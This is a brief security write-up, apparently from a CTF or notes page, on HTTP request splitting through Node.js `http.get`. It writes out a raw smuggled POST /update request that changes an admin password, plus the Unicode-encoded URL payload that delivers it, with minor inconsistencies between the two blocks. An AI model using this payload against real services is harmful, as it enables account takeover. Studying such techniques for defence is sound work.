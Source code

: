 It is the vulnerability of the Node.js `http.get` module, which allows attacker to insert HTTP headers and bodies by splitting request.  
First off, prepare HTTP headers and body as below:

```html
HTTP/1.1

POST /update HTTP1.1
Content-Length: 28

username=admin&password=newpass

GET
```

Then manipulate it for sending to target.

```bash
# \u0120: space
# \u010D: \r
# \u010A: \n
?url=http://example.com\u0120HTTP/1.1\u010D\u010APOST\u0120/update\u0120HTTP/1.1\u010D\u010AContent-Length:\u012028\u010D\u010A\u010D\u010Ausername=admin&password=pass\u010D\u010A\u010D\u010AGET\u0120
```
